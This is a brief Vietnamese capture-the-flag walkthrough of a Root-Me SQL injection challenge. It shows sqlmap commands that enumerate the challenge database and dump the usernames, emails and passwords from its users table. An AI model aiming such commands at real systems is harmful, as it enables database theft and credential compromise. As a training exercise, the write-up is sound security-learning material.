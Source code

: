 ![image](https://user-images.githubusercontent.com/125866921/232682056-1ad784a3-d475-43a8-ba2e-aeb37bc758dd.png)

  - Sau khi vào challenge ta đi vào phần ``member`` và chọn ``admin``.
  - Tại đây trên URL đã xuất hiện các tham số, qua đó ta có thể thực hiện SQLi.  

![image](https://user-images.githubusercontent.com/125866921/232682349-da71330c-01a4-4025-a686-150581181e18.png)

  - Sử dụng sqlmap để khai thác ở challenge này.  
  - Với ``python sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1" --time-sec=3 --dbs ``. Xuất hiện phần database ``public``.

![image](https://user-images.githubusercontent.com/125866921/232682615-671e7ce8-79c9-4e6d-889c-8d009eba901b.png)

  - Tiếp tục truy cập vào database ``public`` sẽ xuất hiện bảng ``users``.
  - Với ``python sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1" --time-sec=3 -D public --tables``.  

![image](https://user-images.githubusercontent.com/125866921/232682877-6dfb96a5-d4b9-46fb-b58f-9390bac114ef.png)

  - Ta tiếp tục xem các cột có trong bảng ``users``.  
  - Tại đây có các cột như ``password``, ``email``, ``firstname``, ``id``, ``lastname``, ``username``.  
  - Cuối cùng ta chỉ cần show các cột ấy ra là xong với ``python sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1" --time-sec=3 -D public -T users -C id,email,username,password --dump``.
